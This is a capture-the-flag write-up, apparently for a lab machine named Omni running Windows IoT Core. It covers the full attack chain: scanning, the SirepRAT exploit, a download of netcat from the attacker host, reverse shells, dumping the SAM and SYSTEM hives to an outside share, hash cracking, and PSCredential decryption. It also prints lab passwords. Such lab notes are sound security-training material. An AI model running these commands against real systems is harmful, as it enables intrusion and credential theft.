




# Summary


## about target

tip:  10.129.2.27

hostname:  Omni

Difficulty:  Easy


## about attack

+ no whomi, set/username to check the user;
+ Pscredential decrypt, need current user creds.


**attack note**

```bash
Omni / 10.129.2.27

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown


---- Interesting
-- from web header
WWW-Authenticate: Basic realm="Windows Device Portal"

app:mesh5143
administrator:_1nt3rn37ofTh1nGz
---- Enum 
--web
# http basic auth, default cred not correct
administrator:p@ssw0rd

# search "Windows Device Portal"  found exploit
## https://github.com/SafeBreach-Labs/SirepRAT
 
---- Foothold
# check with ping
python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\ping.exe" --args "-n 2 10.10.14.9" --return_output --v
sudo tcpdump -i tun0 icmp

# download nc
python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -uri http://10.10.14.9/nc64.exe -outfile c:\windows\system32\tasks\nc.exe" --return_output --v

python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\tasks\nc.exe" --args "10.10.14.9 9001 -e cmd" --return_output --v

$pass="01000000d08c9ddf0115d1118c7a00c04fc297eb0100000011d9a9af9398c648be30a7dd764d1f3a000000000200000000001066000000010000200000004f4016524600b3914d83c0f88322cbed77ed3e3477dfdc9df1a2a5822021439b000000000e8000000002000020000000dd198d09b343e3b6fcb9900b77eb64372126aea207594bbe5bb76bf6ac5b57f4500000002e94c4a2d8f0079b37b33a75c6ca83efadabe077816aa2221ff887feb2aa08500f3cf8d8c5b445ba2815c5e9424926fca73fb4462a6a706406e3fc0d148b798c71052fc82db4c4be29ca8f78f0233464400000008537cfaacb6f689ea353aa5b44592cd4963acbf5c2418c31a49bb5c0e76fcc3692adc330a85e8d8d856b62f35d8692437c2f1b40ebbf5971cd260f738dada1a7"

$creds=New-Object System.Management.Automation.PSCredential("administrator",$pass)


---- System
python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c reg save hklm\system \\10.10.14.9\share\" --return_output --v

python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c reg save HKLM\sam \\10.10.14.24\share\sam'

# reg save and copy to kali, same thing.
secretsdump.py -sam sam -system system -security security local
hashcat -m 1000 --user omni.hashes ../rockyou.txt
hashcat -m 1000 --user omni.hashes --show
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
```

## web

web page, http basic auth.  Try login with default password, not work.

administrator:p@ssw0rd


search header, Windows Device Portal; 

windows iot core

found exploit, https://github.com/SafeBreach-Labs/SirepRAT


# Foothold

```bash
python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\ping.exe" --args "-n 2 10.10.14.9" --return_output --v
```




shell

```bash
python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -uri http://10.10.14.9/nc64.exe -outfile c:\windows\system32\tasks\nc.exe" --return_output --v

python SirepRAT.py $tip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\tasks\nc.exe" --args "10.10.14.9 9001 -e cmd" --return_output --v
```


Check user, system user omni$

```bash
# cmd
set

# powershell
dir env:
echo $env:USERNAME
```

found user.txt, root.txt, \data\users, crypted via pscredential


Dump creds.

```bash
reg save hklm\sam .\
reg save hklm\system .\

copy sam \\10.10.14.9\share\
copy system \\10.10.14.9\share\
```

crack

```bash
secretsdump.py -sam sam -system system -security security local

# save to hashes.
cat hashes | awd -F: '{$1":"$4}' > omni.hash
hashcat -m 1000 --user omni.hash rockyou.txt
```

got app password, mesh5143

login web, run command.

```bash
C:\Windows\System32\tasks\nc.exe -e cmd 10.10.14.9 9001
```



got shell as app user.

decrypt  user.txt and iot-admin.txt

```bash
 $creds=import-clixml -path .\user.txt
 $creds.GetNetworkCredential() | fl
 
  $creds=import-clixml -path .\iot-admin.txt
 $creds.GetNetworkCredential() | fl
```






login to web with admin password.

decrypt root.txt

```bash
 $creds=import-clixml -path .\root.txt
 $creds.GetNetworkCredential() | fl
```


## proof

```bash


```


